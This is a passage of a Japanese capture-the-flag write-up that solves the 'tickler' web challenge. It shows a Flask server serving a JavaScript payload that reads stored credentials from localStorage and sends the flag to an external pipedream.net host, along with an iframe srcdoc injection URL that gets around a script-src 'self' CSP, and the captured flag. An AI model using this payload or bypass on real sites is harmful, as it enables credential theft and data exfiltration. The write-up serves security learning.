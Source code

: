 ```python
@app.route("/")
def tickler():
    response = Response("Satoki")
    response.headers["Content-Type"] = (
        """fetch("/api/getFlag", {headers: {login: localStorage.username + ":" + localStorage.password, "content-type": "application/json"}}).then(res => res.text()).then(text => fetch("https://enqhnbwm4vjef.x.pipedream.net/?s=" + encodeURIComponent(text))); //satoki"""
    )
    return response


if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0", port=80)
```
すると狙い通り`https://tickler.web.actf.co/picture?username=satoki`からXSSペイロードが降ってくるようになった。  
```bash
$ curl 'https://tickler.web.actf.co/picture?username=satoki'
data:fetch("/api/getFlag", {headers: {login: localStorage.username + ":" + localStorage.password, "content-type": "application/json"}}).then(res => res.text()).then(text => fetch("https://enqhnbwm4vjef.x.pipedream.net/?s=" + encodeURIComponent(text))); //satoki;base64,U2F0b2tp
```
あとはこれを`/login`の`error`クエリの脆弱性から読み込んで実行するだけだが、`error.innerHTML`であるためただのscriptタグを記述しても機能しない。  
CSPは`script-src 'self'`なのでimgタグのonerrorも利用できない。  
試行錯誤していると、iframeのsrcdocにscriptタグを記述すると動作することが分かったため、以下のようなURLをAdmin Botへ送信する。  
```
https://tickler.web.actf.co/login?error=<iframe srcdoc="<script src=https://tickler.web.actf.co/picture?username=satoki></script>"></iframe>
```
するとリクエストを受信するサーバへ以下のリクエストが届く。  
```
GET/
?s=%7B%22result%22%3A%7B%22data%22%3A%7B%22success%22%3Atrue%2C%22flag%22%3A%22actf%7Bc4d8f38d1195fda4b7e025f40e16942e%7D%22%7D%7D%7D
```
デコードするとflagが含まれていた。  

## actf{c4d8f38d1195fda4b7e025f40e16942e}